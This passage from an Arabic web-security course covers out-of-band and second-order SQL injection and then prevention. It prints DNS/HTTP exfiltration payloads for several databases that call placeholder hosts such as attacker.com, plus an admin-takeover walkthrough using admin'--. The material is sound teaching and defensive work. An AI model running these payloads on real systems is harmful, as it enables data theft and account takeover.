







# 🎓 الجزء السابع: Out-of-Band (OOB) + Second-Order SQL Injection
## Slides 122 → 146

---

## 📌 Slide 122: Advanced SQL Injection Techniques
### عنوان القسم: تقنيات SQL Injection المتقدمة

دلوقتي بندخل في **أخطر وأذكى أنواع SQLi**! 🔥

> التقنيات دي بتستخدم لما كل الأنواع التقليدية (Error-Based, Union-Based, Blind) **مش بتشتغل**. يعني المهاجم ملوش طريقة يشوف النتيجة لا في الصفحة ولا في الوقت — فبيلجأ لطرق **غير تقليدية**!

---

## 📌 Slide 123: SQL Injection Types (Complete Tree)

### الشجرة الكاملة مع التقنيات المتقدمة:



> **⭐ إحنا هنا!** خلصنا كل الأنواع التقليدية ✅ ودلوقتي بندخل في **OOB** و **Second-Order**.

---

## 📌 Slide 124: Out-of-Band SQL Injection (OOB)

> **Out-of-Band SQL Injection** هو لما المهاجم بيخلي الداتابيز تبعت البيانات على **قناة مختلفة** عن القناة اللي جاي منها الـ Request.

### امتى بنحتاج OOB؟
- Error-Based: التطبيق مش بيعرض Errors ❌
- Union-Based: مفيش Output ظاهر ❌
- Boolean-Based: الصفحة مش بتتغير ❌
- Time-Based: مبلوك أو بطيء جداً ❌
- **الحل الأخير: OOB!** ✅

### القنوات المستخدمة:


---

## 📌 Slide 125: OOB SQLi - How It Works

### آلية العمل:



### الـ Payload:

```sql
-- MySQL - DNS Exfiltration:
' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT database()), '.attacker.com\\file')) --

-- الداتابيز بتعمل DNS lookup لـ:
-- dvwa.attacker.com
-- ↑ اسم الداتابيز ظهر في الـ DNS query!

-- MSSQL - HTTP Exfiltration:
'; EXEC master..xp_dirtree '\\attacker.com\share' --

-- Oracle - HTTP Exfiltration:
' UNION SELECT UTL_HTTP.request('http://attacker.com/'||(SELECT user FROM dual)) FROM dual --
```

---

## 📌 Slide 126: OOB SQLi - Tools

### أدوات الاستقبال:

| الأداة | الوصف | الاستخدام |
|--------|-------|-----------|
| **Burp Collaborator** | سيرفر DNS/HTTP مدمج في Burp Suite Pro | أسهل طريقة |
| **Interact.sh** | بديل مجاني لـ Burp Collaborator | `oast.me`, `interact.sh` |
| **dnslog.cn** | DNS logging مجاني | للاختبارات السريعة |
| **Custom DNS** | سيرفر DNS خاص بيك | للـ Advanced usage |

### مثال مع Interact.sh:

```bash
# 1. اعمل Interact.sh subdomain:
# xyz123.oast.me

# 2. احقن في التطبيق:
' UNION SELECT LOAD_FILE(CONCAT('\\\\', database(), '.xyz123.oast.me\\a')) --

# 3. شوف الـ DNS logs:
# dvwa.xyz123.oast.me ← اسم الداتابيز!
```

---

## 📌 Slide 127: OOB SQLi - DBMS-Specific Techniques

### تقنيات مخصصة لكل داتابيز:

**MySQL:**
```sql
-- LOAD_FILE (محتاج FILE privilege):
SELECT LOAD_FILE(CONCAT('\\\\', database(), '.attacker.com\\a'));

-- INTO OUTFILE:
SELECT * INTO OUTFILE '\\\\attacker.com\\share\\data.txt';
```

**MSSQL:**
```sql
-- xp_dirtree:
EXEC master..xp_dirtree '\\\\attacker.com\\share';

-- xp_fileexist:
EXEC master..xp_fileexist '\\\\attacker.com\\share\\file';

-- xp_cmdshell + nslookup:
EXEC xp_cmdshell 'nslookup secret-data.attacker.com';
```

**Oracle:**
```sql
-- UTL_HTTP:
SELECT UTL_HTTP.request('http://attacker.com/'||version) FROM v$instance;

-- UTL_INADDR:
SELECT UTL_INADDR.get_host_address(user||'.attacker.com') FROM dual;

-- DBMS_LDAP:
SELECT DBMS_LDAP.init(user||'.attacker.com', 389) FROM dual;
```

**PostgreSQL:**
```sql
-- COPY:
COPY (SELECT version()) TO PROGRAM 'nslookup '||version()||'.attacker.com';

-- dblink:
SELECT dblink_connect('host=attacker.com dbname='||version());
```

---

## 📌 Slide 128: Demo - OOB SQL Injection

### ديمو عملي: OOB SQLi

```
السيناريو: تطبيق مش بيعرض Errors ومش بيتأثر بـ Boolean أو Time

1. 🔍 تأكيد إن الاختبارات التقليدية فشلت:
   └── ' AND 1=1 -- → مفيش تغيير
   └── ' OR SLEEP(5) -- → مفيش تأخير
   └── ❌ مفيش طريقة تقليدية

2. 📡 تجهيز سيرفر الاستقبال:
   └── Burp Collaborator أو interact.sh

3. 💉 حقن OOB Payload:
   └── ' UNION SELECT LOAD_FILE(CONCAT('\\\\',
       database(), '.abc123.oast.me\\a')) -- 

4. 📊 مراقبة الـ DNS Logs:
   └── dvwa.abc123.oast.me ← 🎯 وصلت!
```

---

## 📌 Slide 129: Second-Order SQL Injection
### عنوان القسم: حقن SQL من الدرجة الثانية

---

## 📌 Slide 130: Second-Order SQLi - Concept

> **Second-Order SQL Injection** (أو Stored SQLi) بيحصل لما الـ Payload **بيتخزن** في الداتابيز الأول (من غير ما يتنفذ)، وبعدين **بيتنفذ لاحقاً** لما جزء تاني من التطبيق بيستخدم البيانات المخزنة.

### بالمصري كده:

```
تخيل إنك بتسجل حساب جديد في موقع:
Username: admin'--
Password: أي حاجة

المرحلة 1 (التسجيل):
└── التطبيق بيعمل INSERT بشكل آمن (Parameterized)
└── ✅ الـ Payload اتخزن بس مش اتنفذ

المرحلة 2 (تعديل الباسورد):
└── التطبيق بيقول: UPDATE users SET password='new'
    WHERE username='admin'--'
└── 💥 الـ Payload اتنفذ! غيّر باسورد الـ admin الحقيقي!
```

---

## 📌 Slide 131: Second-Order SQLi - Attack Flow

### رسم توضيحي:



---

## 📌 Slide 132: Second-Order SQLi - Why It's Dangerous

### ليه Second-Order خطير جداً؟

| السبب | الشرح |
|-------|-------|
| **صعب الاكتشاف** | الـ Payload بيتخزن بأمان — أدوات الاختبار العادية مش بتلاقيه |
| **وقت التنفيذ مختلف** | ممكن يتنفذ بعد **أيام أو أسابيع** من التخزين |
| **مكان التنفيذ مختلف** | الثغرة مش في صفحة الحقن — في **صفحة تانية خالص** |
| **الأدوات مش بتكتشفه** | SQLMap و Burp Scanner مش بيلاقوه تلقائي |

### أمثلة عملية:

**1. تغيير باسورد الأدمن:**
```
Register: username = admin'--
→ Change own password
→ UPDATE changes admin's password instead!
```

**2. حقن في الـ Logs:**
```
Send: User-Agent: admin'--
→ الـ Log بيتخزن في الداتابيز
→ لما الأدمن يفتح الـ Logs → الـ Payload بيتنفذ!
```

**3. حقن في الـ Profile:**
```
Update name: '; DROP TABLE users; --
→ الاسم بيتخزن
→ لما الأدمن يشوف الـ Profile → الجدول اتمسح!
```

---

## 📌 Slide 133: Second-Order SQLi - Detection

### إزاي تكتشف Second-Order SQLi؟



### الأماكن الشائعة:

| مكان التخزين | مكان التنفيذ |
|-------------|-------------|
| Registration form | Password change / Profile edit |
| User-Agent header | Admin logs viewer |
| Comment/Review | Admin moderation panel |
| File upload (filename) | File listing page |
| Support ticket | Admin ticket viewer |

---

## 📌 Slide 134: Demo - Second-Order SQLi

### ديمو عملي:

```
السيناريو: تطبيق فيه Registration + Profile Edit

1. 📝 Registration:
   Username: admin'--
   Password: test123
   Email: attacker@evil.com
   └── ✅ اتسجلت بنجاح

2. 🔑 Login كالعادي:
   Username: admin'--
   Password: test123
   └── ✅ دخلت

3. 🔄 Change Password:
   Old: test123
   New: hacked123
   
4. 💥 اللي حصل في الداتابيز:
   UPDATE users SET password='hashed_hacked123'
   WHERE username='admin'--'
   └── غيّر باسورد admin الأصلي!!!

5. 🎯 Login as Admin:
   Username: admin
   Password: hacked123
   └── ✅ دخل كـ Admin! 💀
```

---

## 📌 Slide 135: Preventing SQL Injection
### عنوان القسم: الحماية من SQL Injection

---

## 📌 Slide 136: Prevention Methods

> الحماية من SQL Injection ليها **طبقات متعددة** — مش حل واحد بيكفي!

### الحلول:



---

## 📌 Slide 137: Parameterized Queries (Prepared Statements)

> **Parameterized Queries** هي **الحل الأول والأساسي** ضد SQLi. بتفصل **الكود** عن **البيانات** — الداتابيز بتعرف إيه اللي SQL وإيه اللي Data.

### المقارنة:

```python
# ❌ VULNERABLE - String Concatenation:
query = "SELECT * FROM users WHERE name = '" + user_input + "'"
# لو user_input = "admin'--" → SQLi!

# ✅ SAFE - Parameterized Query:
query = "SELECT * FROM users WHERE name = %s"
cursor.execute(query, (user_input,))
# الداتابيز بتعامل user_input كـ DATA مش كـ CODE!
```

### لكل لغة:

```java
// Java - PreparedStatement:
PreparedStatement stmt = conn.prepareStatement("SELECT * FROM users WHERE name = ?");
stmt.setString(1, userInput);
ResultSet rs = stmt.executeQuery();
```

```php
// PHP - PDO:
$stmt = $pdo->prepare("SELECT * FROM users WHERE name = :name");
$stmt->execute(['name' => $userInput]);
```

```javascript
// Node.js - Parameterized:
const query = 'SELECT * FROM users WHERE name = $1';
const result = await pool.query(query, [userInput]);
```

---

## 📌 Slide 138: Input Validation

### التحقق من صحة المدخلات:

| النوع | الشرح | المثال |
|-------|-------|--------|
| **Whitelist Validation** | **الأفضل** — اقبل بس القيم المسموحة | فقط أرقام للـ ID: `[0-9]+` |
| **Blacklist Validation** | ارفض الحروف الخطرة — **مش كافي لوحده!** | ارفض `'`, `"`, `--`, `#` |
| **Type Validation** | تأكد إن الـ Integer هو Integer فعلاً | `int(user_id)` |
| **Length Validation** | حدد الحد الأقصى لطول المدخل | `max_length=50` |

> **⚠️ تحذير:** Input Validation لوحدها **مش كافية** — لازم تُستخدم **مع** Parameterized Queries. في Blacklist دايماً فيه طريقة للتجاوز!

---

## 📌 Slide 139: Least Privilege

### مبدأ أقل الصلاحيات:

```sql
-- ❌ غلط: التطبيق بيستخدم root!
GRANT ALL PRIVILEGES ON *.* TO 'webapp'@'localhost';

-- ✅ صح: صلاحيات محدودة فقط:
GRANT SELECT, INSERT, UPDATE ON webapp_db.* TO 'webapp'@'localhost';
-- مفيش DELETE, DROP, FILE, EXECUTE!
```

### ليه ده مهم؟
حتى لو فيه SQLi — لو يوزر الداتابيز **مش root**:
- ❌ مش هيقدر يعمل `--os-shell`
- ❌ مش هيقدر يقرأ ملفات (`LOAD_FILE`)
- ❌ مش هيقدر يمسح جداول (`DROP TABLE`)
- ✅ أقصى ضرر = قراءة بيانات الداتابيز فقط

---

## 📌 Slide 140: WAF and Security Headers

### طبقة حماية إضافية:

```
WAF (Web Application Firewall):
├── ModSecurity (Open Source)
├── CloudFlare WAF
├── AWS WAF
├── Imperva SecureSphere
└── F5 Advanced WAF

مميزات:
✅ بيحجب الـ Payloads المعروفة
✅ بيكتشف الأنماط المشبوهة
✅ بيعمل Rate Limiting

عيوب:
⚠️ ممكن يتجاوزه (Tamper Scripts!)
⚠️ مش بيحل السبب الجذري
⚠️ ممكن يعمل False Positives
```

> **الخلاصة:** WAF هو **طبقة إضافية** — مش بديل عن Parameterized Queries!

---

## 📌 Slide 141: SQLi Prevention Checklist

### قائمة الحماية الشاملة:

- ✅ استخدم **Parameterized Queries** في كل مكان
- ✅ فعّل **Input Validation** (Whitelist)
- ✅ طبّق **Least Privilege** على يوزر الداتابيز
- ✅ ركّب **WAF** كطبقة إضافية
- ✅ اخفِ **Error Messages** في Production
- ✅ حدّث الداتابيز والـ Framework بانتظام
- ✅ اعمل **Code Review** دوري
- ✅ اعمل **Penetration Testing** منتظم
- ✅ درّب المبرمجين على **Secure Coding**

---

## 📌 Slide 142: SQL Injection - Key Takeaways

### النقاط الأساسية من قسم SQLi:

| النقطة | الشرح |
|--------|-------|
| **أنواع SQLi** | In-Band (Error/Union) + Blind (Boolean/Time) + OOB + Second-Order |
| **الاكتشاف** | `'` + Error Messages + Boolean comparison |
| **الاستغلال** | يدوي أو بـ SQLMap |
| **الأتمتة** | SQLMap = أقوى أداة |
| **الحماية** | Parameterized Queries + Input Validation + Least Privilege |

---

## 📌 Slide 143: Demo - Prevention with Prepared Statements

### ديمو: الحماية باستخدام Prepared Statements

```php
// ❌ الكود الضعيف (القديم):
$username = $_POST['username'];
$password = $_POST['password'];
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($conn, $query);
// أي Payload هينجح!

// ✅ الكود الآمن (Prepared Statements):
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
$result = $stmt->get_result();
// حتى لو المدخل ' OR '1'='1 — مش هينفذ كـ SQL!
```

---

## 📌 Slide 144: SQL Injection Resources

### مصادر إضافية للـ SQLi:

| المصدر | الوصف |
|--------|-------|
| **OWASP SQLi Prevention Cheat Sheet** | دليل الحماية الرسمي |
| **PortSwigger Web Security Academy** | Labs مجانية لكل أنواع SQLi |
| **HackTheBox / TryHackMe** | Machines فيها SQLi للتدريب |
| **SQLMap Documentation** | التوثيق الرسمي لـ SQLMap |
| **PayloadsAllTheThings** | أكبر مجموعة Payloads |

---

## 📌 Slide 145: SQL Injection Section Complete!

### خلصنا قسم SQL Injection! 🎉

قسم SQLi كان **أكبر قسم في الكورس** وغطّى:
- ✅ الأساسيات والمفاهيم
- ✅ كل الأنواع (In-Band, Blind, OOB, Second-Order)
- ✅ الاكتشاف اليدوي والآلي (SQLMap)
- ✅ تقنيات متقدمة (WAF Bypass, Tamper Scripts)
- ✅ الحماية وأفضل الممارسات

---

## 📌 Slide 146: What's Next?

### القادم: NoSQL Injection!

دلوقتي بعد ما اتقنت SQLi (اللي بتستهدف **Relational Databases**)، هندخل في عالم جديد — **NoSQL Injection** اللي بيستهدف قواعد بيانات زي **MongoDB**!



---

## 🎯 ملخص الجزء السابع

| الموضوع | الشرح | الأهمية |
|---------|-------|---------|
| **OOB SQLi** | بيانات عبر DNS/HTTP | الحل الأخير لما كل حاجة تفشل |
| **Second-Order** | الـ Payload بيتخزن وبيتنفذ لاحقاً | أصعب نوع في الاكتشاف! |
| **Parameterized Queries** | فصل الكود عن البيانات | الحل #1 ضد SQLi |
| **Least Privilege** | أقل صلاحيات ممكنة | بيقلل الضرر حتى لو حصل اختراق |
| **WAF** | طبقة حماية إضافية | مش بديل عن Secure Coding |

### 🔧 Key Takeaways:

```
✅ OOB SQLi: الملاذ الأخير — DNS/HTTP exfiltration
✅ Second-Order: أخطر نوع — بيتخزن وبيتنفذ لاحقاً
✅ Parameterized Queries = الحل الأساسي
✅ Least Privilege بيحد من الضرر
✅ WAF طبقة إضافية — مش الحل الجذري
```

> 📝 **الجزء الجاي:** هندخل في **NoSQL Injection + LDAP Injection** — أنواع جديدة تماماً من الحقن بتستهدف MongoDB و Active Directory! 🛠️
